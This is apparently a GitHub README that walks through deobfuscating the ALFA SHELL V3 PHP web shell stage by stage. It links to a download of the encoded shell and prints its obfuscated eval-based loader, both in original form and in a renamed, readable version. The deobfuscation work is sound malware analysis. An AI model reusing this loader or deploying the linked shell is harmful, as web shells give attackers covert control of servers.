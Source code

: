 # DeObfuscation ALFA SHELL V3

### How to decode ALFA SHELL V3?

1 - Download encode shell : http://getalfa.rf.gd/?i=1 <br />

2 - Open file `alfav3-encoded.php` we will see `$MuSoTSurZq='e'.'v'.'al'.'';`  <br />

Link Image 1 <br />

### Start Stage 1

3 - Replace`$MuSoTSurZq='e'.'v'.'al'.'';` to `$MuSoTSurZq='echo';` <br /> 

Link Image 2 <br />

4 - Now we should run `php alfav3-encoded.php > decode_stage_1.php` <br />


5 - Again encoded ALFA, We see intersting message :

``` /* You're killing me again 🎧 Am I still in your head ? 🎧 You used to light me up 🎧 Now you shut me down -- Solevisible */ ```

This message of music `Archive - Again ` Music linke : https://www.youtube.com/watch?reload=9&v=NF52fcoIqg4

### Start Stage 2

6 -
```php
$阿尔法词=十六进制转换('666736736265687075726134636f5f746e646978');$函数存在=$阿尔法词{0}.$阿尔法词{8}.$阿尔法词{16}.$阿尔法词{12}.$阿尔法词{15}.$阿尔法词{18}.$阿尔法词{13}.$阿尔法词{16}.$阿尔法词{14}.$阿尔法词{5}.$阿尔法词{19}.$阿尔法词{18}.$阿尔法词{3}.$阿尔法词{15}.$阿尔法词{3};function 十六进制转换($十六进制){$串='';for($计数=0;$计数<strlen($十六进制);$计数+=2)$串.=chr(hexdec(substr($十六进制,$计数,2)));return $串;}function 编码器($串){return __ZGVjb2Rlcg($串);}function 随机($串){return ord($串);}function 内容($串){return @file_get_contents($串);}if(!$函数存在("阿尔法功能启动")){function 阿尔法功能启动($阿尔法变量的一个){$阿尔法变量的一个=编码器($阿尔法变量的一个);$阿尔法功能启动=0;$阿尔法两个变量=0;$阿尔法变三=0;$阿尔法四个变量=(随机($阿尔法变量的一个[1])<<8)+随机($阿尔法变量的一个[2]);$阿尔法五个变量=3;$阿尔法六个变量=0;$阿尔法七个变量=16;$阿尔法变八="";$阿尔法九变=strlen($阿尔法变量的一个);$阿尔法变量十=__FILE__;$阿尔法变量十=内容($阿尔法变量十);$阿尔法变量十一=0;preg_match(编码器("LyhwcmludHxzcHJpbnR8ZWNobykv"),$阿尔法变量十,$阿尔法变量十一);for(;$阿尔法五个变量<$阿尔法九变;){if(count($阿尔法变量十一)) exit;if($阿尔法七个变量==0){$阿尔法四个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法四个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++]);$阿尔法七个变量=16;}if($阿尔法四个变量&0x8000){$阿尔法功能启动=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<4);$阿尔法功能启动+=(随机($阿尔法变量的一个[$阿尔法五个变量])>>4);if($阿尔法功能启动){$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])&0x0F)+3;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变三++)$阿尔法变八[$阿尔法六个变量+$阿尔法变三]=$阿尔法变八[$阿尔法六个变量-$阿尔法功能启动+$阿尔法变三];$阿尔法六个变量+=$阿尔法两个变量;}else{$阿尔法两个变量=(随机($阿尔法变量的一个[$阿尔法五个变量++])<<8);$阿尔法两个变量+=随机($阿尔法变量的一个[$阿尔法五个变量++])+16;for($阿尔法变三=0;$阿尔法变三<$阿尔法两个变量;$阿尔法变八[$阿尔法六个变量+$阿尔法变三++]=$阿尔法变量的一个[$阿尔法五个变量]);$阿尔法五个变量++;$阿尔法六个变量+=$阿尔法两个变量;}}else $阿尔法变八[$阿尔法六个变量++]=$阿尔法变量的一个[$阿尔法五个变量++];$阿尔法四个变量<<=1;$阿尔法七个变量--;if($阿尔法五个变量==$阿尔法九变){$阿尔法变量十=implode("",$阿尔法变八);$阿尔法变量十="?".">".$阿尔法变量十;return $阿尔法变量十;}}}
}
print_r(阿尔法功能启动(""));
eval(阿尔法功能启动("QAAAPD9waH .... "));
```
I change code of stage 2 of chines language `decode_stage_2.php`: 

```php

<?php

$txjCEtOsnV='f'.'u'.'nc'.'t'.'io'.'n'.'_'.'exist'.'s';
$AiFWszqQIS='cha'.'r'.'Cod'.'eAt';$XBHjjUIPPF='echo';
$HchfyPfIrM='gzinfl'.'ate';if(!$txjCEtOsnV('b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'')){function VVjQyGUShF($data){if(empty($data))return;$b64='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';$o1 = $o2 = $o3 = $h1 = $h2 = $h3 = $h4 = $bits = $i = 0;$ac = 0;$enc = '';$tmp_arr = array();if(!$data){return $data;}do{$o1 = $AiFWszqQIS($data, $i++);$o2 = $AiFWszqQIS($data, $i++);$o3 = $AiFWszqQIS($data, $i++);$bits = $o1 << 16 | $o2 << 8 | $o3;$h1 = $bits >> 18 & 0x3f;$h2 = $bits >> 12 & 0x3f;$h3 = $bits >> 6 & 0x3f;$h4 = $bits & 0x3f;$tmp_arr[$ac++] = charAt($b64, $h1).charAt($b64, $h2).charAt($b64, $h3).charAt($b64, $h4);} while ($i < strlen($data));$enc = implode($tmp_arr, '');$r = (strlen($data) % 3);return ($r ? substr($enc, 0, ($r - 3)) : $enc).substr('===', ($r || 3));}function charCodeAt($data, $char){ return ord(substr($data, $char, 1));}function charAt($data, $char){return substr($data, $char, 1);}}else{function VVjQyGUShF($s){$b='b'.'a'.'s'.'e'.'6'.'4'.'_e'.'n'.'c'.'od'.'e'.'';return $b($s);}}if(!$txjCEtOsnV('ba'.'se6'.'4_d'.'e'.'c'.'ode')){function prGVlydQcW($input){if(empty($input))return;$keyStr = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=";$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";$i = 0;$output = "";$input = preg_replace("[^A-Za-z0-9\+\/\=]", "", $input);do{$enc1 = strpos($keyStr, substr($input, $i++, 1));$enc2 = strpos($keyStr, substr($input, $i++, 1));$enc3 = strpos($keyStr, substr($input, $i++, 1));$enc4 = strpos($keyStr, substr($input, $i++, 1));$chr1 = ($enc1 << 2) | ($enc2 >> 4);$chr2 = (($enc2 & 15) << 4) | ($enc3 >> 2);$chr3 = (($enc3 & 3) << 6) | $enc4;$output = $output . chr((int) $chr1);if ($enc3 != 64) {$output = $output . chr((int) $chr2);}if ($enc4 != 64) {$output = $output . chr((int) $chr3);}$chr1 = $chr2 = $chr3 = "";$enc1 = $enc2 = $enc3 = $enc4 = "";}while($i < strlen($input));return $output;}}else{function prGVlydQcW($s){$b='ba'.'se6'.'4_d'.'e'.'c'.'ode';return $b($s);}}$lOUhvmLHrl='c'.'reat'.'e'.'_'.'funct'.'i'.'on';$BLKLPTRwbV = $lOUhvmLHrl('$lY',$XBHjjUIPPF.'('.$HchfyPfIrM.'('.'pr'.'G'.'V'.'lyd'.'Q'.'c'.'W'.'($lY)'.')'.')'.';');


$keys=func_1('666736736265687075726134636f5f746e646978');

$split_keys=$keys{0}.$keys{8}.$keys{16}.$keys{12}.$keys{15}.$keys{18}.$keys{13}.$keys{16}.$keys{14}.$keys{5}.$keys{19}.$keys{18}.$keys{3}.$keys{15}.$keys{3};
function func_1($arg_1){
    $串='';
    for($i=0;$i<strlen($arg_1);$i+=2)
    $串.=chr(hexdec(substr($arg_1,$i,2)));
    return $串;
}

function __ZGVjb2Rlcg($s)
{
    return prGVlydQcW($s);
}

function func_2($串){
        return __ZGVjb2Rlcg($串);
}
function func_3_ord($串){
        return ord($串);
}
function func_4($串){
        return @file_get_contents($串);
}

if(!$split_keys("func_5")) {
        $func_5_arg = "";
            $func_5_arg=func_2($func_5_arg);
            $func_5=0;
            $counter=0;
            $Counter_5=0;
            $var_2=(func_3_ord($func_5_arg[1])<<8)+func_3_ord($func_5_arg[2]);
            $Counter_2=3;
            $Counter_3=0;
            $Counter_4=16;
            $ret_str="";
            $get_length_arg=strlen($func_5_arg);
            $get_files=__FILE__;
            $get_files=func_4($get_files);
            $get_files一=0;
            preg_match(func_2("LyhwcmludHxzcHJpbnR8ZWNobykv"),$get_files,$get_files一);

            for(;$Counter_2<$get_length_arg;){
         
                if($Counter_4==0){
                    $var_2=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                    $var_2+=func_3_ord($func_5_arg[$Counter_2++]);
                    $Counter_4=16;
                }
                if($var_2&0x8000){
                    $func_5 = (func_3_ord($func_5_arg[$Counter_2++])<<4);
                    $func_5 += (func_3_ord($func_5_arg[$Counter_2])>>4);
                    if($func_5){
                        $counter=(func_3_ord($func_5_arg[$Counter_2++])&0x0F)+3;
                        for($Counter_5=0;$Counter_5<$counter;$Counter_5++)
                            $ret_str[$Counter_3+$Counter_5] = $ret_str[$Counter_3-$func_5+$Counter_5];
                            $Counter_3+=$counter;
                        }
                        else{
                            $counter=(func_3_ord($func_5_arg[$Counter_2++])<<8);
                            $counter+=func_3_ord($func_5_arg[$Counter_2++])+16;
                            for($Counter_5=0;$Counter_5<$counter;
                            $ret_str[$Counter_3+$Counter_5++]=$func_5_arg[$Counter_2]);
                            $Counter_2++;
                            $Counter_3+=$counter;
                        }
                    }
                    else
                    $ret_str[$Counter_3++]=$func_5_arg[$Counter_2++];
                    $var_2<<=1;
                    $Counter_4--;
                    if($Counter_2==$get_length_arg){
                        echo $ret_str;
                    }
        }
}

```

7 - Again we run `php decode_stage_2.php > final_alfashell.php` seccessfully decode ALFA SHELL :),


Thanks, <br />
Ramin - kernel security engineering 
